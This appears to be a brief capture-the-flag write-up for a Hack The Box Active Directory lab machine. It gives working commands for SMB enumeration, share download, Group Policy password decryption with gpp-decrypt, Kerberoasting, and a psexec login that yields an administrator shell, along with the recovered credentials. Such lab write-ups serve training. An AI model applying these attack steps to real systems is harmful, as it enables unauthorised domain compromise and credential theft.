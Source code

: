 # Enumeration
- Use nmap to enumerate the ports ` sudo nmap -T5 10.10.10.100` ![](attachment/e29cc017f1c7ae9344dc1931ad064407.png)
- `smbclient  -L \\\\10.10.10.100` gives all smb shares:![](attachment/99f5e760d90614c7817e249fb8b80a90.png)
# Exploitation
- `smbclient \\\\10.10.10.100\\Replication` to get into replication then 
	```
	smb: \> prompt off
	smb: \> recurse on
	smb: \> mget *
	```
	To download all the files
	
 - Then u get the Groups.xml file in active.htb folder
 - Copy password from Groups.xml then use gpp-decrypt the password
	 `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`![](attachment/691db1c4894646d1e5d25afa4347ef9e.png)
-  **active.htb\SVC_TGS**-we also have the username from the groups.xml file
- trying to use psexec we get no write permission
- Then using [[Active Directory/Post Compromise Attacks/Kerberoasting]] we get a hash 
- Using hashcat to crack the hash we get the password `Ticketmaster1968` ![](attachment/52b7d51541eba535f736ae2a0d999f86.png)
- We got the password for the following admin user![](attachment/d7e18ed7a01958a69b8e61edbd45db6c.png)
- Then using psexec to get a shell: `psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100`
	We get a root shell![](attachment/a8f16a189aeb7d18b66b635e490df774.png)